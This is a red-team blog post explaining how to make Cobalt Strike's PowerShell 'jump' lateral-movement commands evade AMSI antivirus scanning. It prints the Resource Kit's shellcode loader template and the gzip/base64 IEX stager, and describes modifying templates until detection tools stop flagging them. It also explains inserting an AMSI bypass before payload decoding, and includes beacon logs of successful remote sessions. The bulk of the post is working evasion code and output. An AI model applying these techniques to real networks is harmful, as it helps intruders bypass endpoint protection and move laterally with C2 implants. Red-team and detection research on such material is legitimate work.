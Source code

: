 ```yaml
---
title: "Making AMSI Jump"
date: 2020-06-16T10:52:27+01:00
authors:
    - rastamouse
draft: false
---
```


Since 3.13, Cobalt Strike has had a Malleable C2 option called `amsi_disable`.  This directive tells Beacon to patch the `AmsiScanBuffer` function in the host process prior to injecting post-ex capabilities such as `powerpick` and `execute-assembly`.  This limits AMSI's visibility of said process and (hopefully) prevents the PowerShell / .NET assemblies being executed from being scanned.

One set of workflows that `amsi_disable` does not apply to, are the new (as of 4.0) `jump` commands.

```
beacon> help jump
Use: jump [exploit] [target] [listener]

Attempt to spawn a session on a remote target with the specified exploit.

Type jump by itself to see a list of available remote exploits.

beacon> jump

Beacon Remote Exploits
======================

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```

`psexec_psh`, `winrm` and `winrm64` all use PowerShell and will be the subject of this post.

When lateral movement via `winrm` / `winrm64` is blocked by AMSI, the output very helpfully lets us know that's what's happening.

![winrm64-blocked](/images/making-amsi-jump/winrm64-blocked.png "winrm64 blocked")

`psexec_psh` is understandably less helpful.  We see a service has been created and started, but we can't connect to the target.

![psexec_psh-blocked](/images/making-amsi-jump/psexec_psh-blocked.png "psexec_psh blocked")

## Resource Kit & AMSITrigger

The default PowerShell templates used to generate these payloads can be overridden using the [Resource Kit](https://www.cobaltstrike.com/scripts).  Within this package, we have `resources.cna`, `template.x86.ps1`, `template.x64.ps1` and `compress.ps1`.

Within these templates, there are lines such as

```text
[Byte[]]$var_code = [System.Convert]::FromBase64String('%%DATA%%')
```

where `%%DATA%%` is simply a placeholder for the actual Beacon payload.

First off, we can use a tool such as [AMSITrigger](https://github.com/RythmStick/AMSITrigger) to see if any detections are triggered from the templates themselves.

```text
D:\Tools\AMSITrigger\AMSITrigger\bin\Debug>AmsiTrigger.exe -i D:\Tools\cobaltstrike\resourcekit\template.x64.ps1 -f 2
[23]    "If ([IntPtr]::size -eq 8) {
        [Byte[]]$var_code = [System.Convert]::FromBase64String('%%DATA%%')

        for ($x = 0; $x -lt $var_code.Count; $x++) {
                $var_code[$x] = $var_code[$x] -bxor 35
        }

        $var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
        $var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
        [System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

        $var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
        $var_runme.Invoke([IntPtr]::Zero"
```

The general methodology here is to make modifications to the code being highlighted as malicious and re-scanning with AMSITrigger.  I was able to circumvent by simply adding `else { return }` to the end of the `If ([IntPtr]::size -eq 8)` block `¯\_(ツ)_/¯`.

Now if we load `resources.cna` into the Cobalt Strike Script Manager, and try `jump winrm64` again...

```text
beacon> jump winrm64 WIN-CJ8120QPH84 tcp
[*] Tasked beacon to run windows/beacon_bind_tcp (0.0.0.0:4444) on WIN-CJ8120QPH84 via WinRM
[+] host called home, sent: 219563 bytes
[+] established link to child beacon: 192.168.152.128
```

Repeat the same process with `template.x86.ps1` and we can have `jump winrm` working as well.

```text
beacon> jump winrm WIN-CJ8120QPH84 tcp
[*] Tasked beacon to run windows/beacon_bind_tcp (0.0.0.0:4444) on WIN-CJ8120QPH84 via WinRM
[+] host called home, sent: 195283 bytes
[+] established link to child beacon: 192.168.152.128
```

## The Compression Problem

Even though `psexec_psh` also uses `template.x86.ps1`, it was still failing.  By enabling PowerShell Transcript logging on the test target, I was able to see what was happening.

```text
Windows PowerShell transcript start
Start time: 20200616135045
Username: TESTLAB\SYSTEM
RunAs User: TESTLAB\SYSTEM
Machine: WIN-CJ8120QPH84 (Microsoft Windows NT 10.0.14393.0)
Host Application: powershell -nop -w hidden -enc JABz[...snip...]ADsA
**********************
PS>$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sI[...snip...]CwAA"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
At line:1 char:1
+ $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAA ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
At line:1 char:1
+ $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAA ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus
software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordEx
   ception
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

It seems that AMSI has a real issue with base64 decoding and decompressing a GZIP compressed binary - regardless of the actual binary itself.  We can verify this by using `cmd.exe` as a test candidate.

```text
PS > $cmdBytes = [System.IO.File]::ReadAllBytes("C:\Windows\System32\cmd.exe")
PS > [System.IO.MemoryStream] $ms = New-Object System.IO.MemoryStream
PS > $gs = New-Object System.IO.Compression.GzipStream $ms, ([IO.Compression.CompressionMode]::Compress)
PS > $gs.Write($cmdBytes, 0, $cmdBytes.Length)
PS > $gs.Close(); $ms.Close()
PS > [System.Convert]::ToBase64String($ms.ToArray()) | clip
```

Now if we try to decode and decompress...

```text
PS C:\Users\Daniel> $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sI[...snip...]AA=="));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();

At line:1 char:1
+ $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAA ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

My first thoughts for trying to get around this was to modify `compress.ps1` and transform the data in a different way or find a different compression method.  Whilst experimenting, I actually made syntactic error near the top of the script and saw PowerShell errors being spat out in the transcript log, prior to the actual AMSI error being thrown.

```text
**********************
PS>CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="InputObject"; value="The term 'some-garbage' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again."
some-garbage : The term 'some-garbage' is not recognized as the name of a cmdlet, function, script file, or operable 
program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ some-garbage;
```

This showed that I have code execution prior to the Beacon payload being decoded, so I placed a custom version of my [old AMSI bypass](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass.ps1) at the very top of `compress.ps1` which seemed to do the trick.

```text
beacon> jump psexec_psh WIN-CJ8120QPH84 tcp
[*] Tasked beacon to run windows/beacon_bind_tcp (0.0.0.0:4444) on WIN-CJ8120QPH84 via Service Control Manager (PSH)
[+] host called home, sent: 210319 bytes
[+] received output:
Started service f718f3b on WIN-CJ8120QPH84
[+] established link to child beacon: 192.168.152.128
```

## Conclusion

The flexibility provided by the Resource Kit allows you to transform Cobalt Strike's artifacts in practically anyway you may choose and it just goes to show how little effort you sometimes have to put in to achieve quite decent results.
